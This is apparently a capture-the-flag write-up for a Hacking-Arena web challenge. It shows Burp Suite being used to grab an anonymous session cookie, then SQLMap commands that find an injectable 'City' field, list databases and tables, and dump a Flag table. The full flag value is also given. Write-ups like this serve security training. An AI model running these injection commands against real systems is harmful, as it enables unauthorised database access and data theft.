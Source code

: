 # Flag

> **Hacking-Arena{H4rd d4y5 0verfl0w}**

# Prompt

> **Find the flag here: [http://r2d2.hackingarena.com:1819](http://r2d2.hackingarena.com:1819/)**

# Solution

When logging in as user=anonymous, we can tell that the unusual text-form that appears can be tested for vulnerability. Since this text-form is a unique case for user=anonymous, we need to get the cookie for this scenario.

Retrieving the cookie can be done by using **burpSuite** and intercepting the web server when logging in as anonymous. We are then left with the cookie:

```
Cookie: PHPSESSID=4h84k6rantkj5olieg85ui31q5
```

This cookie can be used with **SQLMap** to test vulnerability of specific forms, which hopefully will prompt us the tables of the web server.

````
sqlmap -u "http://r2d2.hackingarena.com:1819/index.php" --cookie="PHPSESSID=4h84k6rantkj5olieg85ui31q5" --forms --dbs
````

We were then asked which form we wanted to test and we chose the form for city. The unique text form which appeared by logging in as anonymous

![[Pasted image 20241024155950.png]]

Furthermore, we allowed SQLMap to test the field with random values, which prompted us a message telling us that post parameter 'City' was injectable. Finally, we allowed SQLMap to exploit the SQL injection.

![[Pasted image 20241024160208.png]]

The bottom four databases are known to be default in a system. Therefor, we proceed with the database "BeatlesData".

We now attempt to extract tables from database "BeatlesData", and yet again select the exploitable form "city".

```
sqlmap -u "http://r2d2.hackingarena.com:1819/index.php" --cookie="PHPSESSID=4h84k6rantkj5olieg85ui31q5" --forms -D BeatlesData --tables
```

![[Pasted image 20241024160349.png]]

Lastly, we extract the data from database "BeatlesData" and table "Flag" to be dumped in our CLI.

```
sqlmap -u "http://r2d2.hackingarena.com:1819/index.php" --cookie="PHPSESSID=4h84k6rantkj5olieg85ui31q5" --forms -D BeatlesData -T Flag --dump
```

![[Pasted image 20241024160522.png]]